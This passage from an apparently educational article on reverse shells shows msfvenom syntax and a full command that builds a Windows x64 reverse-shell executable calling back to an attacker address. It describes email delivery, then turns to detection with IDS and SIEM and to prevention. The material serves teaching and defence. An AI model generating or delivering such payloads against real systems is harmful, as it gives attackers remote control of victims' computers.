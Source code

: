 <u>7. MSFVenom:</u>

MSFVenom is a Metasploit command-line payload generator. It's used to build shell code for a variety of systems, including Windows 32-bit and 64-bit, Linux, Android, and more.
The syntax used to create a payload in msfvenom is as follows:

`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP> LPORT=<PORT>`

Assume we want to create a TCP reverse shell payload in exe format for a victim machine running Windows 64 bit OS. The resulting payload is stored is in a file called revshell_x64.exe.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.2 LPORT=31337 -f exe > revshell_x64.exe`

Let's assume that the attacker delivers the payload file (revshell_x64.exe) to the user by email. The reverse shell is executed when the user clicks on the malicious link in the email, granting access to the computer.

## Detecting Reverse Shells:

Reverse shells can be difficult to detect, especially if they use protocols that are permitted on the network.

Reverse shells can be identified by monitoring the flow of traffic in your network and looking for suspicious activity in your logs. One of the tools that can help you detect reverse shells, is an IDS(intrusion detection system). There are two kinds of IDS, signature-based IDS and behavior-based/anomaly-based IDS.

Based on their pattern, signature-based intrusion detection systems may detect the most widely used reverse shells.

In addition to using attack signatures to detect reverse shells, behavioral or anomaly-based intrusion detection systems use machine learning and statistical analysis to detect abnormal network traffic. The usage of behavior/anomaly-based IDS can improve the chances of detecting reverse shells in your environment. This sort of IDS gives you a holistic view of the network and builds an understanding of usual network activity over time.

SIEM is another technology that can aid in the detection of reverse shells in your network. SIEM (Security Information and Event Management) is a centralized platform that collects various logs from an organization's IT infrastructure in order to identify potential security threats or incidents. These programs utilize web server access logs to spot unusual behavior in your environment.

Even the most sophisticated techniques, however, cannot ensure 100% detection of reverse shells in your network. A determined attacker can still circumvent your detection methods and get access to your network.

## Prevention of Reverse Shells:

As stated in the preceding section, complete detection of the reverse shell in your network is impossible. To secure your network and endpoints, the best security strategy is to prevent them from happening in the first place. This section describes several techniques for preventing reverse shell attacks in your network.

- Security issues in web applications that could lead to reverse shell exploitation should be extensively examined. Manual testing, as well as automated tools such as vulnerability scanners, must be used on a regular basis to help detect and prevent these vulnerabilities.
